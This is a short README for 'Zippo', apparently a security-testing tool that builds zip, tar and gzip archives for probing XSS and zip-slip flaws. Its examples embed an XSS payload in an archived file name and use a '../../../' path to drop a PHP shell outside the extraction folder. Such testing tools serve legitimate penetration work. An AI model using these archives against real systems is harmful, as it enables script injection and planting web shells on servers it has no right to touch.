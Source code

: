 # Zippo
Zippo is a archive payload generator for testing XSS, (Zip/Tar/Gzip)slip vulnerabilities.

```
                ,.~\
             ,-`    \
             \       \
              \       \
               \       \
                \       \
       _.-------.\       \
      (o| o o o | \    .-`
     __||o_o_o_o|_ad-``
    |``````````````|
    |     ZIPPO    |
    |   ♠ ♠ ♠ ♠ ♠  |
    |     ♠ ♠ ♠    |
    |       ♠      |
    |______________|
========@egeblc==========

  -i string
        Desired zip file
  -n string
        Desired zip file name
  -o string
        Output zip file
  -t string
        Archive type (zip/tar/gzip) (default "zip")

```

## Build

just `make` :)

## Example Usage

**TAR Archive With XSS Payload**
```
zippo -t tar -n "<svg onload=alert(1)>.txt" -o evil.tar
```
**ZIP Archive With ZIP-slip**
```
zippo -t zip -i my-shell.php -n "../../../my-shell.php" -o evil.zip
```
